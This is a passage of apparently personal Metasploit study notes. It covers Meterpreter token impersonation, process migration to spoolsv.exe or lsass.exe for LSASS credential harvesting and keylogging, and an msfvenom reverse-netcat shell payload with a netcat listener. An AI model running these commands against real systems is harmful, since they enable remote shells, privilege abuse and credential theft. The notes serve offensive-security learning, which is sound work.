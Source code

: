 ### Log In as a User

```meterpreter
load incognito
list_tokens -u
impersonate_token $DOMAIN\\$USER
```

Not 100% sure where the “tokens” come from here… Mimikatz, maybe?

### Process Migration

I *think* that Meterpreter is being run directly from memory, and what `migrate` is doing is basically creating a new process using the memory of a different application, hopping to that process, and then shutting down the old process.

Reasons to migrate the Meterpreter process:

* For persistence (pick a long-running process)
* To make sure that the Meterpreter *process* has system privileges
* To hide (pick a process less likely to be examined)
* To stabilize the shell (initial exploits often produce somewhat unstable sessions)
* To move laterally or escalate privileges within a system (if you’re lucky)
* To gain additional capabilities

In particular, harvesting credentials from LSASS requires that Meterpreter be living in a process with the same permissions (NT AUTHORITY/SYSTEM) and architecture as LSASS; migrating Meterpreter can help us realize this. The print spooler service (`spoolsv.exe`) is often a good choice, as it runs with elevated permissions, has the same architecture as the system itself, and will restart itself automatically. You can also use `lsass.exe` directly if you feel like living dangerously.

Another example is that dumping keystrokes will only work when Meterpreter is attached to a word processor or text editor.

Note that Meterpreter will happily let you migrate from a privileged to an unprivileged process — which may cause you to loose control of the target system! Additionally, migrating Meterpreter will change its current working directory to that of the process it’s attaching to.

## Venom (“msfvenom”)

Msfvenom is a tool to create custom versions of Metasploit payloads, encoded into a variety of different binary formats and scripts. For example:

```bash
# Use Metasploit to generate the code for a remote shell:
# 
msfvenom -p cmd/unix/reverse_netcat \
            lhost=$LOCAL_IP lport=$LOCAL_PORT

# Spin up a listener using netcat:
#
nc -lvp $LOCAL_PORT
```

This will generates code that looks like this:
